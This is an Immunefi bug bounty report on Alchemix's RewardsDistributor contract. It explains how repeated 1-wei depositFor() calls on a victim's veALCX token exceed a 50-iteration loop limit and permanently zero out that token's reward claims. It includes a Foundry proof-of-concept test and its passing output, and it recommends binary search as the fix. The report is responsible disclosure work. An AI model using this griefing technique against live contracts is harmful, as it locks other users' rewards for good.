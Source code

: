 
# RewardDistributor claims can be DoSed through excess amount of userPoint creation

Submitted on Fri May 17 2024 21:47:27 GMT-0400 (Atlantic Standard Time) by @jecikpo for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31399

Report type: Smart Contract

Report severity: High

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/RewardsDistributor.sol

Impacts:
- Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)
- Permanent freezing of unclaimed royalties

## Description
## Brief/Intro
A malicious user can DoS (permanently lock) veALCX token owner's claims, by creating certain amount of `userPointHistory` entries by calling `VotingEscrow.depositFor()` on a target token multiple times.

## Vulnerability Details
`RewardDistributor` claims are calculated in the `_claimable()` function. The calculation first involves finding the last `userPoint` which was taken before the last `weekCursor`. This is done through a `for` loop that cycles from the last `userEpoch` until it finds one. The loop can cycle up to 50 times:
```
for (uint256 i = 0; i < 50; i++) {
```
hence if there are more `userPoints` than 50 the `_claimable()` function will return 0 as `toDistribute`. 

A malicious user can call the `VotingEscrow.depositFor()` on the attacked veALCX token multiple times and can deposit minimum amount tokens (1 wei is enough), this way he can create the `userPoints` that will DoS the function.

The solution would be to use binary search like in other places in the system.

## Impact Details
Te veALCX token holder loses irreversibly all claims. 

## References
https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/RewardsDistributor.sol#L365


        
## Proof of concept
## Proof of Concept
paste the following code into `Minter.t.sol`:
```
    function testDOSClaims() public {
        initializeVotingEscrow();

        // Get a fresh epoch
        hevm.warp(newEpoch());
        voter.distribute();

        uint256 tokenId1 = createVeAlcx(admin, TOKEN_1, MAXTIME, false);
        uint256 tokenId2 = createVeAlcx(beef, TOKEN_1, MAXTIME, false);

        deal(bpt, beef, TOKEN_1);
        hevm.prank(beef);
        IERC20(bpt).approve(address(veALCX), TOKEN_1);
        for (uint256 i; i < 60; i++) {
            hevm.prank(beef);
            veALCX.depositFor(tokenId1, 1);
            hevm.roll(block.number + 1);
        }

        // Finish the epoch
        hevm.warp(newEpoch());
        voter.distribute();

        // Go to the next epoch
        hevm.warp(newEpoch());
        voter.distribute();

         // And the next epoch
        hevm.warp(newEpoch());
        voter.distribute();

        uint256 claimable1 = distributor.claimable(tokenId1);
        uint256 claimable2 = distributor.claimable(tokenId2);
        console.log("claimable on tokenId1: %d", claimable1);
        console.log("claimable on tokenId2: %d", claimable2);
    }
```

We can see in the output that the `tokenId1` that was attacked is returning 0 of claimable amount, while the `tokenId2` returns the correct amount:
```
[PASS] testDOSClaims() (gas: 27805168)
Logs:
  claimable on tokenId1: 0
  claimable on tokenId2: 5158128881524544439089

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 77.54s (39.96s CPU time)
```
